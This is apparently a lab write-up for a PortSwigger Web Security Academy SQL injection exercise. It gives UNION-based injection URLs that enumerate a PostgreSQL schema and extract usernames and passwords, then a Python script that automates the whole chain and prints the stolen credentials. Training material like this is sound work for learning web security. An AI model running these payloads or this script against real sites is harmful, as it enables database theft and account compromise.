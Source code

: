 # SQL injection attack, listing the database contents on non-Oracle databases

URL: https://0a65000103f3305880eee9ff00cf003d.web-security-academy.net/

## Sitemap:

URL: https://0a65000103f3305880eee9ff00cf003d.web-security-academy.net/

URL: https://0a65000103f3305880eee9ff00cf003d.web-security-academy.net/filter?category=Gifts

## Exploitation:

### Getting 500:

URL: `https://0a65000103f3305880eee9ff00cf003d.web-security-academy.net/filter?category=Gifts'`

![](./Images/expl0.png)

### Getting the number of fields:

URL: `https://0a65000103f3305880eee9ff00cf003d.web-security-academy.net/filter?category='+UNION+SELECT+NULL,NULL--+-`

![](./Images/expl1.png)

### Finding the STRING field:

URL: `https://0a65000103f3305880eee9ff00cf003d.web-security-academy.net/filter?category='+UNION+SELECT+'aaa','bbb'--+-`

![](./Images/expl2.png)

### Getting the version:

URL: `https://0a65000103f3305880eee9ff00cf003d.web-security-academy.net/filter?category='+UNION+SELECT+CAST(version()+as+varchar),'bbb'--+-`

![](./Images/expl3.png)

### Getting database name:

URL: `https://0a65000103f3305880eee9ff00cf003d.web-security-academy.net/filter?category='+UNION+SELECT+CAST(current_database()+as+varchar),'bbb'--+-`

![](./Images/expl4.png)

### Getting current schema:

URL: `https://0a65000103f3305880eee9ff00cf003d.web-security-academy.net/filter?category='+UNION+SELECT+CAST(current_schema()+as+varchar),'bbb'--+-`

![](./Images/expl5.png)

### Get table names:

URL: `https://0a2a0063032c498b8097ad3f00a8005f.web-security-academy.net/filter?category='+UNION+SELECT+CAST(table_name+as+varchar),'bbb'+from+information_schema.tables+where+table_schema='public'--+-`

![](./Images/expl6.png)

Tables:

- `users_fvkxdf`
- `products`

### Get column names form table `users_fvkxdf`:

URL: `https://0a3000bb03a6c1488224150500e800be.web-security-academy.net/filter?category='+UNION+SELECT+CAST(column_name+as+varchar),'bbb'+from+information_schema.columns+where+table_name+like+'users%25'--+-`

![](./Images/expl7.png)

Tables:

- `password_wrjaxr`
- `username_flhhfy`

### Get username and password:

URL: `https://0a3000bb03a6c1488224150500e800be.web-security-academy.net/filter?category='+UNION+SELECT+CAST(username_flhhfy+as+varchar),cast(password_wrjaxr+as+varchar)+from+users_wfcgsf--+-`

Data:

- `carlos:a3nzjw9s1m5tifeku3js`
- `wiener:zq31cei7jia0nso8ypci`
- `administrator:ltxp7mxle25lv0uv1w4k`

## Automation:

```python
#!/usr/bin/python3
##
import requests
import re
import pwn
##
Payload1="/filter?category='+UNION+SELECT+"
Payload2=",NULL--+-"
##
def get_version(URL):
    send=URL+Payload1+"version()"+Payload2
    r=requests.get(send)
    version=str(re.findall("<th>.*</th>",r.text)).split(">")[1].split("<")[0]
    return version
##
def get_current_db(URL):
    send=URL+Payload1+"current_database()"+Payload2
    r=requests.get(send)
    db=str(re.findall("<th>.*</th>",r.text)).split(">")[1].split("<")[0]
    return db
##
def get_current_schema(URL):
    send=URL+Payload1+"current_schema()"+Payload2
    r=requests.get(send)
    schema=str(re.findall("<th>.*</th>",r.text)).split(">")[1].split("<")[0]
    return schema
##
def get_tables(URL,schema):
    send=URL+Payload1+f"table_name,NULL+from+information_schema.tables+where+table_schema='{schema}'--+-"
    r=requests.get(send)
    tables=[]
    for X in re.findall("<th>.*</th>",r.text):
        tables.append(X.split('>')[1].split('<')[0])
    return tables
##
def get_columns(URL,tables):
    users=tables[0]
    send=URL+Payload1+f"column_name,NULL+from+information_schema.columns+where+table_name='{users}'--+-"
    r=requests.get(send)
    cols=[]
    for X in re.findall("<th>.*</th>",r.text):
        cols.append(X.split('>')[1].split('<')[0])
    return cols
##
def pwn(URL,cols,users):
    send=URL+Payload1+f"{cols[0]},{cols[1]}+from+{users}--+-"
    r=requests.get(send)
    usernames=[]
    passwords=[]
    data=[]
    for X in re.findall("<th>.*</th>",r.text):
        passwords.append(X.split('>')[1].split('<')[0])
    for Y in re.findall("<td>.*</td>",r.text):
        usernames.append(Y.split('>')[1].split('<')[0])
    for i in range(0,len(usernames),1):
        data.append((usernames[i],passwords[i]))
    return data
##
def main(URL):
    version=get_version(URL)
    print(f"The version is: {version}")
    db=get_current_db(URL)
    print(f"The current databse is: {db}")
    schema=get_current_schema(URL)
    print(f"The current schema is: {schema}")
    tables=get_tables(URL,schema)
    print(f"The tables are: {tables}")
    cols=get_columns(URL,tables)
    print(f"The columns for the table {tables[0]} are: {cols}")
    data=pwn(URL,cols,tables[0])
    print(f"The stolen creds are:\n{data}")
##
main("https://0a3000bb03a6c1488224150500e800be.web-security-academy.net")
```
